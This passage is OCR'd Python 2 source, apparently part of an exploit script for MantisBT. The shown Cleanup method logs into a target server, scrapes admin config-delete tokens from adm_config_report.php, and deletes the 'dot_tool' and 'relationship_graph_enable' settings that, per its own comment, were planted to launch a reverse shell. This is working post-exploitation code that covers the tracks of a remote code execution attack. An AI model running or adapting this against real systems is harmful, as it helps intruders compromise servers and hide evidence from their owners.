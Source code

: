         def Cleanup(self):
            # Delete the config settings that were created to send the reverse shell
            print "Cleaning up"

            cleaned_up = False

            cleanup = requests.Session()

            CleanupHeaders = dict()
            CleanupHeaders.update({'Content-Type': 'application/x-www-form-urlencoded'})

            data = "return=index.php&username=" + self.realname + "&password=" + self.passwd + "&secure_session=on"
            url = 'http://' + self.RHOST + ":" + self.RPORT + self.mantisLoc + '/login.php'
            r = cleanup.post(url=url, headers=CleanupHeaders, data=data)

            ConfigsToCleanup = ['dot_tool', 'relationship_graph_enable']

            for config in ConfigsToCleanup:
                # Get adm_config_delete_token
                url = "http://" + self.RHOST + ":" + self.RPORT + self.mantisLoc + "/adm_config_report.php"
                r = cleanup.get(url=url, headers=self.headers)
                test = split('<!-- Repeated Info Rows -->', r.text)

                # First element of the response list is garbage, delete it
                del test[0]

                cleanup_dict = dict()
                for i in range(len(test)):
                    if config in test[i]:
                        cleanup_dict.update({'config_option': config})
                        cleanup_dict.update({'adm_config_delete_token':
                                                 test[i].split('name="adm_config_delete_token" value=')[1].split('"')[1]})
                        cleanup_dict.update({'user_id': test[i].split('name="user_id" value=')[1].split('"')[1]})
                        cleanup_dict.update({'project_id': test[i].split('name="project_id" value=')[1].split('"')[1]})

                # Delete the config
                print "Deleting the " + config + " config."

                url = "http://" + self.RHOST + ":" + self.RPORT + self.mantisLoc + "/adm_config_delete.php"
                data = "adm_config_delete_token=" + cleanup_dict['adm_config_delete_token'] + "&user_id=" + cleanup_dict[
                    'user_id'] + "&project_id=" + cleanup_dict['project_id'] + "&config_option=" + cleanup_dict[
                           'config_option'] + "&_confirmed=1"
                r = cleanup.post(url=url, headers=CleanupHeaders, data=data)

                # Confirm if actually cleaned up
                r = cleanup.get(url="http://" + self.RHOST + ":" + self.RPORT + self.mantisLoc + "/adm_config_report.php",
                                headers=CleanupHeaders, verify=False)
                if config in r.text:
                    cleaned_up = False
                else:
                    cleaned_up = True
